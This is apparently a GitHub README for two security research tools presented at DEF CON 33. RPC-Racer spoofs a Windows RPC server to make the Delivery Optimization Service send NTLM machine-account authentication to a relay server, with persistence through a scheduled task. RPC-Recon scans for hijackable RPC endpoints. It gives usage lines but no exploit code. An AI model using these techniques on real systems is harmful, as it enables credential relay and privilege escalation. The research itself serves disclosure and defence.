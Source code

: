
# RPC-Racer
<div align="center">
<img src="./images/RPC-Racer.png" width="30%"/>
</div align="center">

This tool is used to masquerade as a legitimate, built-in RPC server of the operating system without administrator privileges.
It mimics the RPC interface of the Storage Service (StorSvc.dll) and forces the Delivery Optimization Service (dosvc.dll) to send an RPC request to it. The response sent by RPC-Racer contains a path that will be accessed by DoSvc. By specifying a network share as the path, an NTLM authentication of the machine account will be triggered. This authentication can then be relayed to leverage the privileges of the machine account.

This attack will succeed only if the Storage Service is turned off. To execute the tool before this service is launched, the parameter `/register` should be specified for RPC-Racer. It will make the tool create a scheduled task that will start when the current user logs on. After the machine reboots and the user logs on again, RPC-Racer will be executed automatically with the IP address specified upon registration.

Presented at DEF CON 33 - [You snooze you lose: RPC-Racer winning RPC endpoints against services](https://defcon.org/html/defcon-33/dc-33-speakers.html#content_60313)

## Usage
```
RPC-Racer.exe RELAY_SERVER_IP_ADDRESS [/register]
```

## Notes
- In cases where the Storage Service is launched before the scheduled task of RPC-Racer, the following setting should be turned on: Windows Update -> Advanced Options -> Delivery Optimization -> Allow downloads from other devices

# RPC-Recon
This tool is used to find vulnerable interfaces that can be registered by an attacker right after the system boots, before most services are launched. It queries the Endpoint Mapper for all the dynamic endpoints registered and scans the memory of processes to find well-known endpoints. Then, it waits and performs the same retrieval again to find RPC servers that are registered late. When the RPC-Recon is done, a text file will be created with all interfaces that can be registered before the original service.

To create a scheduled task that will execute RPC-Recon when the current user logs on, specify the parameter `/register`.

## Usage
```
RPC-Recon.exe [/register]
```

## Notes
- RPC-Recon needs to read the memory of elevated processes. Therefore, it should be executed with administrator privileges.

## Credits
* [Ron Ben Yizhak](https://x.com/RonB_Y)

## References
* [RpcView](https://github.com/silverf0x/RpcView)
* [RpcDump](https://github.com/fortra/impacket/blob/master/examples/rpcdump.py)
